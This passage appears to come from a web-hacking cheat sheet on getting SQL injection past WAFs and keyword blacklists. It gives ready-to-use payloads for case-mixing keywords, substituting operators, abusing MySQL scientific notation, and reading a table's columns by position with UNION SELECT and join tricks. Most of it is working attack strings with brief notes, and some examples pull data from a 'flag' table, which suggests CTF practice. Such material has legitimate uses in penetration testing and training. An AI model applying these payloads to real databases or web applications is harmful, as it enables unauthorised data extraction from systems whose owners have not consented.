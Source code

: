 Blacklist using keywords - bypass using uppercase/lowercase

```sql
?id=1 AND 1=1#
?id=1 AnD 1=1#
?id=1 aNd 1=1#
```

Blacklist using keywords case insensitive - bypass using an equivalent operator

```
AND   -> && -> %26%26
OR    -> || -> %7C%7C
=     -> LIKE,REGEXP,RLIKE, not < and not >
> X   -> not between 0 and X
WHERE -> HAVING --> LIMIT X,1 -> group_concat(CASE(table_schema)When(database())Then(table_name)END) -> group_concat(if(table_schema=database(),table_name,null))
```

<br>

### Scientific Notation WAF bypass
---

You can find a more in depth explaination of this trick in [gosecure blog](https://www.gosecure.net/blog/2021/10/19/a-scientific-notation-bug-in-mysql-left-aws-waf-clients-vulnerable-to-sql-injection/).\
Basically you can use the scientific notation in unexpected ways for the WAF to bypass it:

```
-1' or 1.e(1) or '1'='1
-1' or 1337.1337e1 or '1'='1
' or 1.e('')=
```

<br>

### Bypass Column Names Restriction
---
First of all, notice that if the **original query and the table where you want to extract the flag from have the same amount of columns** you might just do: `0 UNION SELECT * FROM flag`

It’s possible to **access the third column of a table without using its name** using a query like the following: `SELECT F.3 FROM (SELECT 1, 2, 3 UNION SELECT * FROM demo)F;`, so in an sqlinjection this would looks like:

```bash
# This is an example with 3 columns that will extract the column number 3
-1 UNION SELECT 0, 0, 0, F.3 FROM (SELECT 1, 2, 3 UNION SELECT * FROM demo)F;
```

Or using a **comma bypass**:

```bash
# In this case, it's extracting the third value from a 4 values table and returning 3 values in the "union select"
-1 union select * from (select 1)a join (select 2)b join (select F.3 from (select * from (select 1)q join (select 2)w join (select 3)e join (select 4)r union select * from flag limit 1 offset 5)F)c
```
